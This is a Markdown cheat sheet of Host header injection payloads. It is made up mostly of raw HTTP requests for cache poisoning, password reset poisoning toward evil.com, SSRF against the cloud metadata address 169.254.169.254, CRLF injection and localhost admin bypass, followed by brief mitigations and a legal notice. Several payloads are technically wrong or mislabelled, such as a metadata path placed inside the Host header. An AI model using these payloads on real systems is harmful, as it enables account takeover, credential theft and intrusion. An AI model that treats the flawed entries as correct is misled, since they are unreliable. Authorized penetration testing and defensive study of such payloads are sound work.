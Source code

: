 # **Host Header Injection Payload Cheat Sheet**

This document contains comprehensive techniques for testing and exploiting Host header vulnerabilities.

## **1. Basic Host Header Injection**

### **Simple Header Override**
```http
GET / HTTP/1.1
Host: evil.com
```

### **Port Manipulation**
```http
GET / HTTP/1.1
Host: victim.com:9999
```

## **2. Advanced Header Manipulation**

### **X-Forwarded-Host Bypass**
```http
GET / HTTP/1.1
Host: legit.com
X-Forwarded-Host: evil.com
```

### **Multiple Host Headers**
```http
GET / HTTP/1.1
Host: victim.com
Host: evil.com
```

## **3. Cache Poisoning via Host Header**

### **Cache Key Manipulation**
```http
GET / HTTP/1.1
Host: victim.com.evil.com
```

### **Protocol Switching**
```http
GET / HTTP/1.1
Host: victim.com:443
```

## **4. Password Reset Poisoning**

### **Reset Token Hijacking**
```http
POST /reset-password HTTP/1.1
Host: evil.com
Email: victim@company.com
```

## **5. SSRF via Host Header**

### **Internal Service Access**
```http
GET / HTTP/1.1
Host: 169.254.169.254
```

### **AWS Metadata Exploit**
```http
GET / HTTP/1.1
Host: 169.254.169.254/latest/meta-data/
```

## **6. Virtual Host Brute Forcing**

### **Subdomain Enumeration**
```http
GET / HTTP/1.1
Host: admin.victim.com
```

### **Common Subdomains**
```
Host: dev.victim.com
Host: test.victim.com
Host: staging.victim.com
Host: internal.victim.com
```

## **7. Web Cache Deception**

### **Cache Poisoning**
```http
GET / HTTP/1.1
Host: victim.com
X-Forwarded-Host: attacker.com
```

## **8. Bypass Techniques**

### **Line Wrapping**
```http
GET / HTTP/1.1
 Host: evil.com
```

### **Header Spoofing**
```http
GET / HTTP/1.1
X-Host: victim.com
Host: evil.com
```

## **9. Special Character Injection**

### **CRLF Injection**
```http
GET / HTTP/1.1
Host: victim.com%0d%0aX-Malicious: header
```

### **Null Byte Injection**
```http
GET / HTTP/1.1
Host: victim.com%00evil.com
```

## **10. Real-World Exploit Examples**

### **Admin Panel Access**
```http
GET /admin HTTP/1.1
Host: localhost
```

### **Bypassing Authentication**
```http
GET / HTTP/1.1
Host: 127.0.0.1
```

## **Testing Methodology**

1. **Identify Host header usage** in application flow
2. **Test header manipulation** with various techniques
3. **Verify impact** (cache poisoning, SSRF, etc.)
4. **Check for validation bypasses**
5. **Document all findings**

## **Mitigation Strategies**

- Validate Host headers against whitelist
- Disable unused headers (X-Forwarded-Host)
- Use relative URLs in applications
- Implement proper cache key configuration
- Monitor for suspicious Host header values

## **Legal Notice**

These techniques should only be used for authorized security testing. Unauthorized testing may violate laws and system policies. Always obtain proper permission before testing.